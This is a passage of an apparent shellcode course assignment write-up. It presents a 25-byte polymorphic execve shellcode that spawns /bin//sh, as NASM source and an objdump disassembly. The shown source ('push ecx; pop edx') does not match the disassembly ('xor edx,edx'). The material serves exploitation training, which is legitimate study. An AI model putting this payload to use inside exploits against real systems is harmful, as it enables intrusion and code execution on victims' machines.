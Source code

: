 ![The encoded payload]({{site.url}}/assets/images/exec_encoded_variant.png)

The execve() shellcode variant is 25 byte long, instead of 30 bytes of the
original shellcode taken from the website.

{%highlight asm%}
; Filename: 	
; Author:	Paolo Perego <paolo@codiceinsicuro.it>  
; Website:  	https://codiceinsicuro.it
; Twitter:   	@thesp0nge
; SLAE-ID:    	1217
; Purpose:	Polymorphic variation for an obfuscated shellcode

global _start			

section .text

_start:
	; INIT Registers
	push byte 0xb
	pop eax
	xor ecx, ecx
	push ecx
	pop edx

	jmp short shell

flow:	
	pop ebx
	int 0x80

shell: 	
	call dword flow
	das
	bound ebp,[ecx+0x6e]
	das
	das
	jae $+0x6a

{%endhighlight%}

The disassembled executable is:

{%highlight asm%}
thesp0nge@SLAE /media/sf_SLAE_Course/SLAE/Assignment_6/exec
 %      objdump -d exec_variant

exec_variant:     file format elf32-i386


Disassembly of section .text:

08048080 <_start>:
 8048080:	6a 0b                	push   $0xb
 8048082:	58                   	pop    %eax
 8048083:	31 c9                	xor    %ecx,%ecx
 8048085:	31 d2                	xor    %edx,%edx
 8048087:	eb 03                	jmp    804808c <shell>

08048089 <flow>:
 8048089:	5b                   	pop    %ebx
 804808a:	cd 80                	int    $0x80

0804808c <shell>:
 804808c:	e8 f8 ff ff ff       	call   8048089 <flow>
 8048091:	2f                   	das    
 8048092:	62 69 6e             	bound  %ebp,0x6e(%ecx)
 8048095:	2f                   	das    
 8048096:	2f                   	das    
 8048097:	73 68                	jae    8048101 <_end+0x65>
